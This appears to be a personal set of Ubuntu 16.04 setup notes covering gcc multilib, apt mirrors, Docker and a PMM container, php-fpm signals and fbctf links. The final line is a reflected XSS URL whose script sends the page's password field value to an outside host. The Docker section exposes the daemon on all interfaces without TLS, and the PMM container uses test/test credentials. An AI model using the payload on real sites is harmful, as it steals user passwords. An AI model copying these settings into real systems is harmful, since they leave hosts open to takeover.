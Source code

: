 # ubuntu1604

## gcc 编译
 sudo apt install -y build-essential module-assistant &&
 sudo apt install -y libc6-dev-i386 &&
 sudo apt install -y gcc-multilib g++-multilib 
可以使用-m32 编译32位程序啦

## change source

sudo sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
## nfs

stop broken nfs
umount -f -l /mnt/myfolder
## docker

sudo apt-get install -y\
    apt-transport-https \
    ca-certificates \
    curl \
    software-properties-common &&
curl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add - &&

sudo add-apt-repository \
   "deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu \
   $(lsb_release -cs) \
   stable" &&
sudo apt-get update &&
sudo apt-get install -y docker-ce


sudo echo -e "{\n 
  \"registry-mirrors\": [\"https://docker.mirrors.ustc.edu.cn/\"]
}" >/etc/docker/daemon.json 
sudo systemctl restart docker

### docker监听tcp

```bash
# 查看配置文件位于哪里
systemctl show --property=FragmentPath docker 
#编辑配置文件内容，接收所有ip请求
sudo vim /lib/systemd/system/docker.service  
ExecStart=/usr/bin/dockerd -H unix:///var/run/docker.sock -H tcp://0.0.0.0:2376
#重新加载配置文件，重启docker daemon
sudo systemctl daemon-reload
sudo systemctl restart docker
```

## pmm

```bash
# 拉取服务器镜像

docker pull percona/pmm-server:latest

# 创建PMM数据容器

docker create \
   -v /opt/prometheus/data \
   -v /opt/consul-data \
   -v /var/lib/mysql \
   -v /var/lib/grafana \
   --name pmm-data \
   percona/pmm-server:latest /bin/true

# 创建PMM服务器容器, 同时设置登录用户名(SERVER_USER)和密码(SERVER_PASSWORD), 根据需要进行修改. 默认使用80端口, 如果需要可以更改.

docker run -d -p 9001:80 \
  --volumes-from pmm-data \
  --name pmm-server \
  -e SERVER_USER=test \
  -e SERVER_PASSWORD=test \
  --restart always \
  percona/pmm-server:latest
```

## 如何重启php

启动php-fpm:

/usr/local/php/sbin/php-fpm
INT, TERM 立刻终止
QUIT 平滑终止
USR1 重新打开日志文件
USR2 平滑重载所有worker进程并重新载入配置和二进制模块
先查看php-fpm的master进程号
kill -USR2 \<master pid\>


## fbctf
https://blog.ctftools.com/2017/03/post122/
https://github.com/facebook/fbctf/wiki/Installation-Guide,-Production


http://192.168.168.42/?LanmanErrorCode=%3Cscript%3EsetTimeout(function(){window.location.href="http://zizhu.cug.edu.cn/"+document.getElementById(%22password%22).value;},1000);%3C/